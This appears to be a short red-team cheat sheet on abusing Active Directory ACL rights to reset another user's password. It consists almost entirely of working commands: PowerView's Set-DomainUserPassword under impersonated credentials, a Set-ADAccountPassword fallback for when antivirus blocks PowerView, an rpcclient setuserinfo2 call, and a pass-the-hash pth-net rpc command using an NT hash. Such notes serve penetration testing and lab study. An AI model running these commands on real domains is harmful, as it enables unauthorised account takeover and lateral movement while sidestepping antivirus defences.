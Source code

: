 # Change a User's Password Using ACL Permissions

1. **Authenticate as the Controlling User User I have**  
   - **Create a Secure String** for the password of the user with ACL permissions (e.g., `ali`):  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     ```  
   - **Create a PSCredential Object** to impersonate the controlling user:  
     ```powershell
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     Replace `DOMAIN\USERNAME` (e.g., `corp.com\ali`).

2. **Define the New Password for the Target User**  
   - **Create a Secure String** for the new password (e.g., `Pwn3d_by_ACLs!`):  
     ```powershell
     $NewPassword = ConvertTo-SecureString '<NEW_PASSWORD>' -AsPlainText -Force
     ```  
---

3. **Reset the Target User's Password**  
   - **Import Required Modules** (e.g., PowerView):  
     ```powershell
     Import-Module .\PowerView.ps1
     ```  
   - **Execute the Password Change**:  
     ```powershell
     Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $NewPassword -Credential $Cred -Verbose
     ```  
     Replace `<TARGET_USER>` (e.g., `ahmed`).  
---

Another way to **Reset the Target User's Password** if powerview.ps1 cannot be executed (AV)
Set-ADAccountPassword (ActiveDirectory module)
# Example: Reset a user password to “p@ssw0rd”
``` powershell
Set-ADAccountPassword -Identity 'CN=Elisa Daugherty,OU=Accounts,DC=Fabrikam,DC=com' `
    -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force)
```
# Using rpc from owned user login
```
setuserinfo2 <target-user> 23 'P@ssword2022'
```
# Direct command for rpc
```
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```
